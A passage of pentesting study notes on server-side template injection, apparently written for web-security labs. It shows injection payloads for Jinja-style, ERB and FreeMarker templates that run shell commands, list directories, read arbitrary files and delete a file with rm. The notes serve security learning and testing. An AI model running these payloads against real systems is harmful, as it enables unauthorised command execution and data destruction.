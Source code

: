 If an empty expression error shows, try injecting something known such as `user.name` before the payload:

```ruby
blog-post-author-display=user.name}}{% import os %}{{os.system('whoami')}}&csrf=jE8TKKWWKg34LwuofXdJDI9EZotYTrEA
```
# SSTI Using Documentation

Template engine documentation may provide a security section with vulnerable examples. If not, if a particular built-in object or function poses a risk, there is likely a warning which may not provide much detail, but can be useful for testing.

In ERB, the documentation reveals you can list all directories and read arbitrary files via:

```ruby
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
```

If you compromise an account that can edit product descriptions or templates, try editing a template and look for certain syntax such as:

```ruby
${someExpression}
```

If so, attempt to change an existing one to refer to an object that does not exist to produce an error:

```ruby
${foobar}
```

For example, FreeMarker documentation states that the `new()` built-in can be dangerous as you can create Java objects that implement the `TemplateModel` interface. The `TemplateModel` has an `Execute` class that can use shell commands.

Attempt to construct an exploit such as:

```java
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }
```

>[!info]
>Additionally, try off-the-shelf payloads through things like [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection).

Also try and attempt to trigger an overly verbose error message on the app, which discloses the template engine in use:

```ruby
${7*test}
```
# SSTI via Documented Exploit

Once you identify the template engine, try searching for any vulnerabilities that others may have already discovered. It is sometimes possible to find well-documented exploits you might be able to tweak.
